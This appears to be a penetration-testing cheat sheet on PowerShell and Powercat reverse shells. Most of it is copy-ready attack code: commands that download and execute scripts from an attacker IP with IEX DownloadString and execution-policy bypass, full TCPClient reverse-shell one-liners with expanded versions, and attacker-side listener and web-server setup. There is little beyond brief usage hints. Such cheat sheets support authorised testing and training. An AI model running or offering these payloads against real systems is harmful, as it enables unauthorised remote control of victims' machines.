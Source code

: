 # Powercat | Powershell

## Powercat

```bash
powershell  -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.189/powercat.ps1');powercat -c 192.168.119.189 -p 443 -e cmd.exe"
```

{% hint style="info" %}
cmd.exe payload is more reliable and preferred than the Powershell payload below.
{% endhint %}

{% hint style="danger" %}
Note it may be necessary to press `Enter` a couple times after the connection is established. Otherwise shell may not be sent successfully.
{% endhint %}

## Powershell (.ps1 file)

$ATTACKER

{% code title="rshell.ps1 (one-liner)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("192.168.119.189",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

{% code title="rshell.ps1 (expanded)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("192.168.119.189",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "# ";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()};
$client.Close()
```
{% endcode %}

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
sudo ufw allow from $TARGET proto tcp to any port 80,443
```

$TARGET

```bash
powershell IEX (New-Object Net.WebClient).DownloadString("http://192.168.119.189/rshell.ps1");
```

## Powershell (one liner)

Alternatively, use a one liner on the TARGET:

```bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.189',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Expanded one liner:

```bash
$client = New-Object System.Net.Sockets.TCPClient('192.168.119.189',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
}
$client.Close();
```
